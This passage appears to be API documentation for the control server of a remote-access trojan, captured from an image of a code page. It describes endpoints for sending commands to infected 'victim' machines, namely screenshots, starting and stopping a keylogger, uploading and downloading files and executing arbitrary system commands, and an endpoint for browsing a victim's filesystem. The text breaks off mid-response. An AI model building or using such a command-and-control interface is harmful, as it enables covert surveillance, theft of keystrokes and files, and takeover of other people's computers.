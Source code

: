 **Headers:**
```http
Authorization: Bearer <token>
```

**Request:**
```json
{
  "command": "screenshot",
  "params": {
    "fullscreen": true,
    "quality": 80,
    "format": "png"
  }
}
```

**Response:**
```json
{
  "success": true,
  "message": "Command sent successfully",
  "data": {
    "commandId": "cmd_123",
    "status": "pending",
    "timestamp": "2024-01-01T00:00:00.000Z"
  }
}
```

**Available Commands:**
- `screenshot` - Take screenshot
- `keylog_start` - Start keylogging
- `keylog_stop` - Stop keylogging
- `file_list` - List files in directory
- `file_download` - Download file
- `file_upload` - Upload file
- `system_info` - Get system information
- `execute` - Execute system command

---

#### `GET /api/victims/:victimId/filesystem`
Browse victim filesystem.

**Headers:**
```http
Authorization: Bearer <token>
```

**Query Parameters:**
- `path` - Directory path (default: C:\)
- `type` - File type filter (optional)

**Response:**
```json
{
  "success": true,
  "data": {
    "path": "C:\\Users\\User\\Documents",
    "files": [
      {
        "name": "document.pdf",
        "type": "file",
        "size": 1024000,
        "modified": "2024-01-01T00:00:00.000Z",
        "permissions": "read-write"
      },
```